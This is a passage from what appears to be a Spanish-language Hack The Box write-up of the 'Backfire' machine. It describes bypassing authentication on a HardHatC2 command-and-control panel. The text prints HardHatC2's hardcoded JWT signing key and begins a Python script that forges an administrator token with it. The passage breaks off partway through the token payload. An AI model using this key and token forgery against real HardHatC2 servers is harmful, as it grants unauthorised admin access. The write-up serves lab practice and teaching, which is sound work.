 Una vez redirigido el tráfico, accedo al panel web de HardHatC2 desde mi navegador y confirmo que se encuentra activo y protegido por autenticación.

![](/assets/img/htb-writeup-backfire/backfire2_2.png)

El formulario de login requiere credenciales, pero buscando posibles vectores de bypass encuentro el blog [sth/hardhatc2-rce-authn-bypass](https://blog.sth.sh/hardhatc2-0-days-rce-authn-bypass-96ba683d9dd7), donde se documenta una falla crítica. HardHatC2 firma sus tokens JWT con una clave estática hardcodeada (jtee43gt-6543-2iur-9422-83r5w27hgzaq) almacenada en el archivo [TeamServer/appsettings.json](https://github.com/DragoQCC/CrucibleC2/blob/74a86e6680309c7e192826a7ceff6642501e81a7/TeamServer/appsettings.json) del repositorio oficial. Esto permite construir tokens JWT válidos sin necesidad de credenciales reales.

```python
import jwt
import datetime
import uuid
import requests

rhost = '127.0.0.1:5000'

# Craft Admin JWT  
secret = "jtee43gt-6543-2iur-9422-83r5w27hgzaq"
issuer = "hardhatc2.com"
now = datetime.datetime.utcnow()

expiration = now + datetime.timedelta(days=28)
payload = {
"sub": "HardHat_Admin",
"jti": str(uuid.uuid4()),
"http://schemas.xmlsoap.org/ws/2005/05/identity/claims/nameidentifier": "1",
"iss": issuer,
```